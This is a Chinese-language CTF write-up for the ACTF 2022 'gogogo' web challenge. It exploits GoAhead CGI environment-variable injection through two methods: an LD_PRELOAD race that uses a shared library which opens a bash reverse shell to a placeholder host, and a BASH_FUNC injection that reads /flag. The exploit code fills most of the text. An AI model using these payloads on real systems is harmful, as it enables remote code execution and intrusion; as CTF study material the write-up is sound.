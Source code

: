 ##  2022ACTF

复现环境：https://github.com/team-s2/ACTF-2022/tree/main/web

自己服务器docker搭建一下即可

##  gogogo

考点：gohead的环境变量注入

先看看之前p神分析的过程：https://www.leavesongs.com/PENETRATION/goahead-en-injection-cve-2021-42342.html

其实，我看完，总结下思路分析：

1. 通过上传文件的形式可以注入环境变量
2. 我们就可以利用`LD_PRELOAD`来劫持动态链接库
3. 需要上传so文件，我们通过上传文件的形式产生临时文件
4. 但是因为文件上传后，文件描述符都直接删除了
5. 我们就通过增加文件的大小，添加脏字符，然后增加上传的时间，然后条件竞争就可以利用

###  解法一

就是通过条件竞争的方式

hack.c

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void aaanb(void)
{
    unsetenv("LD_PRELOAD");
    system("touch /tmp/success");
    system("/bin/bash -c 'bash -i >& /dev/tcp/xxx/30005 0>&1'");
}

```

生成so文件

```c
gcc hack.c -fPIC -s -shared -o hack.so
```

```python
import requests, random
from concurrent import futures
from requests_toolbelt import MultipartEncoder
hack_so = open('hack.so','rb').read()

def upload(url):
    m = MultipartEncoder(
        fields = {
            'file':('1.txt', hack_so,'application/octet-stream')
        }
    )
    r = requests.post(
        url = url,
        data=m,
        headers={'Content-Type': m.content_type}
    )

def include(url):
    m = MultipartEncoder(
        fields = {
            'LD_PRELOAD': '/proc/self/fd/7',
        }
    )
    r = requests.post(
        url = url,
        data=m,
        headers={'Content-Type': m.content_type}
    )


def race(method):
    url = 'http://xxx:12346/cgi-bin/hello'
    if method == 'include':
        include(url)
    else:
        upload(url)

def main():
    task = ['upload','include'] * 1000
    random.shuffle(task) #
    with futures.ThreadPoolExecutor(max_workers=5) as executor:
        results = list(executor.map(race, task))

if __name__ == "__main__":
    main()


```

###  解法2

利用也是p神的环境变量注入：

https://www.leavesongs.com/PENETRATION/how-I-hack-bash-through-environment-injection.html

```python
import requests

payload = {
    "BASH_FUNC_env%%":(None,"() { cat /flag; exit; }"),
}
proxies = {
    "http": 'http://127.0.0.1:8080',
    "https": 'http://127.0.0.1:8080'
}
r = requests.post("http://42.193.170.176:12346/cgi-bin/hello",files=payload,proxies=proxies)
print(r.text)
```

加代理是方便burp抓包

![image-20220905172806169](img/image-20220905172806169.png)

## poorui